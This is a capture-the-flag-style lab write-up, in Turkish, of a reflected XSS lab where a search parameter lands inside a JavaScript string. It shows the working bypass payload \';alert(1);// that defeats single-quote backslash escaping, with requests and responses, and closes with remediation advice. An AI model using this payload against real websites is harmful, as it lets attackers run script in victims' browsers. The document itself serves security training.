




# Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped

## 1. Lab Bilgisi

**Difficulty:** Practitioner

## 2. Vulnerability Özeti

Bu labda `search` parametresi sayfadaki `<script>` bloğu içinde bulunan JavaScript string değişkenine yansıtılıyordu. Uygulama angle bracket karakterlerini ve çift tırnakları HTML-encode ediyor, tek tırnak karakterini ise backslash ile escape ediyordu. Bu nedenle klasik HTML tag injection payloadları veya sadece tek tırnakla string kırma denemeleri doğrudan çalışmadı.

Zafiyet, tek tırnak escape mekanizmasının backslash ile manipüle edilebilmesinden kaynaklanıyordu. Payload başına eklenen backslash, uygulamanın eklediği escape karakteriyle birleşerek JavaScript string içinde literal backslash oluşturdu. Ardından gelen tek tırnak string'i kapattı, `alert(1)` çalıştı ve payload sonundaki `//` kalan JavaScript kodunu comment'e alarak syntax hatasını engelledi.

## 3. Exploitation Steps

1. Önce `search` parametresine rastgele bir değer gönderip response içinde nerede yansıtıldığını kontrol ettim.

```http
/?search=test123
```

Response içinde değerin `<script>` bloğundaki `searchTerms` değişkenine tek tırnaklı JavaScript string olarak yerleştirildiği görüldü.

```html
<script>
    var searchTerms = 'test123';
    document.write('');
</script>
```

Bu çıktı, payload'ın HTML context yerine JavaScript string context içinde kurulması gerektiğini gösterdi.



2. String context'ten çıkmak için önce tek tırnak kullanan basit payload denendi.

```javascript
';alert(1);//
```

Ancak response içinde tek tırnak karakterinin backslash ile escape edildiği görüldü.

```javascript
var searchTerms = '\';alert(1);//';
```

Bu durumda `alert(1)` kodu string'in içinde kaldığı için çalışmadı.



3. Ardından backslash karakterinin nasıl işlendiğini görmek için payload başında backslash test edildi.

```javascript
\alert(1);//
```

Response içinde backslash karakterinin de escape edilerek `\\` şeklinde üretildiği görüldü.

```javascript
var searchTerms = '\\alert(1);//';
```

Bu davranış, backslash ve tek tırnak birlikte kullanıldığında escape zincirinin kırılabileceğini gösterdi.



4. Final payload olarak backslash, tek tırnak, JavaScript komutu ve comment karakterleri birlikte kullanıldı.

```javascript
\';alert(1);//
```

Final request:

```http
/?search=\';alert(1);//
```

Response içinde payload şu JavaScript yapısına dönüştü:

```javascript
var searchTerms = '\\';
alert(1);
//';
```

Burada `\\` string içinde tek bir backslash değeri üretir. Sonraki tek tırnak string'i kapatır, `alert(1)` çalışır ve `//` kalan kısmı comment'e alır.



5. Payload çalıştırıldığında lab solved durumuna geçti.


## 4. Impact

Saldırgan, kurbana özel hazırlanmış bir URL göndererek hedef kullanıcının tarayıcısında uygulama origin'i altında JavaScript çalıştırabilir. Bu labda etki `alert(1)` ile gösterilmiştir; gerçek senaryolarda aynı zafiyet oturum içi işlemlerin tetiklenmesi, sayfa içeriğinin değiştirilmesi veya hassas bilgilerin hedeflenmesi için kullanılabilir.

## 5. Remediation

Kullanıcı kontrollü veriler JavaScript string context'ine doğrudan yerleştirilmemelidir. Dinamik veri gerekiyorsa güvenli JSON serialization kullanılmalı ve çıktı bulunduğu context'e uygun şekilde encode edilmelidir. Tek tırnak, çift tırnak, backslash, satır sonu ve script kırma karakterleri JavaScript context'i için doğru biçimde ele alınmalıdır. Ayrıca kullanıcı girdisi script bloğu içinde kullanılmak yerine mümkün olduğunca DOM API'leri üzerinden `textContent` gibi güvenli yöntemlerle işlenmelidir. Content Security Policy ile inline script çalıştırılması sınırlandırılarak bu tür açıkların etkisi azaltılabilir.
